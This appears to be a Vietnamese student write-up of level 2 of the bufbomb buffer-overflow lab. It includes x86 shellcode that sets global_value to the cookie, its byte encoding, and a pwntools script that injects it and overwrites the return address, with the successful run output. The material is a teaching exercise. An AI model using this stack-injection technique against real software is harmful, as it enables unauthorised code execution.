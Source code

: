 # Level 2
## Task
Buffer overflow hàm `getbuf` để thực thi được hàm `bang` với `global_value == cookie`.  
```c
void __noreturn bang()
{
  if ( global_value == cookie )
  {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  }
  else
  {
    printf("Misfire: global_value = 0x%x\n", global_value);
  }
  exit(0);
}
```

## Solution
Tương tự như các level trước, chúng ta vẫn sẽ overflow buffer có độ dài `40` bytes. Nhưng ở level này, chúng ta cần inject shellcode để có thể set giá trị của `global_value` bằng với giá trị `cookie`.  

Trước tiên, để gán được giá trị mới cho `global_value`, chúng ta cần biết được địa chỉ của `global_value`. Trong IDA Pro, chúng ta có thể xem được địa chỉ của biến `global_value`.  
```
.bss:8013F160 global_value    dd ?
```  

Và cả địa chỉ của biến `cookie`.  
```
.bss:8013F158 cookie          dd ?
```  

Vậy shellcode của chúng ta như sau:  
```asm
movl $0x8013F158,%eax
movl (%eax),%eax
movl $0x8013F160,%ebx
movl %eax,(%ebx)
push $0x80139b69
ret
```  

> `0x8013F160` là địa chỉ của biến `global_value`.
> `0x8013F158` là địa chỉ của biến `cookie`.
> `0x80139B69` là địa chỉ của hàm `bang`.  

Byte biểu diễn của shellcode:  
```
└─$ objdump -d shellcode.o

shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   b8 58 f1 13 80          mov    $0x8013f158,%eax
   5:   8b 00                   mov    (%eax),%eax
   7:   bb 60 f1 13 80          mov    $0x8013f160,%ebx
   c:   89 03                   mov    %eax,(%ebx)
   e:   68 69 9b 13 80          push   $0x80139b69
  13:   c3                      ret
```

Tiếp theo, chúng ta sẽ tìm địa chỉ để ghi đè vào `return address`.  
Ở đây, vì shellcode sẽ được chèn vào đầu chuỗi nhập nên giá trị mà chúng ta sẽ ghi đè lên `return address` chính là địa chỉ của chuỗi nhập. Trong quá trình debug thì chúng ta tìm được địa chỉ là:  
```
pwndbg> p/x $eax
$1 = 0x55683cf8
```  

Vậy `exploit_payload` của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `0x28` bytes sẽ chứa shellcode và các giá trị padding, `0x4` bytes tiếp theo để ghi đè `saved %ebp`, và `0x4` bytes cuối cùng để ghi đè `return address`.  

### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

io = process(['./bufbomb', '-u', '09821978'])

shellcode = b'\xb8\x58\xf1\x13\x80\x8b\x00\xbb\x60\xf1\x13\x80\x89\x03\x68\x69\x9b\x13\x80\xc3'
exploit_payload = shellcode + b'\x90' * (0x28 + 0x4 - len(shellcode))
exploit_payload += p32(0x55683cf8)

print(f"{exploit_payload = }")

io.sendline(exploit_payload)
io.interactive()
```  

Chạy script.  
```
└─$ python3 level2.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 391
exploit_payload = b'\xb8X\xf1\x13\x80\x8b\x00\xbb`\xf1\x13\x80\x89\x03hi\x9b\x13\x80\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf8<hU'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 391)
Userid: 09821978
Cookie: 0x31f21393
Type string:Bang!: You set global_value to 0x31f21393
VALID
NICE JOB!
```  
> Thành công!
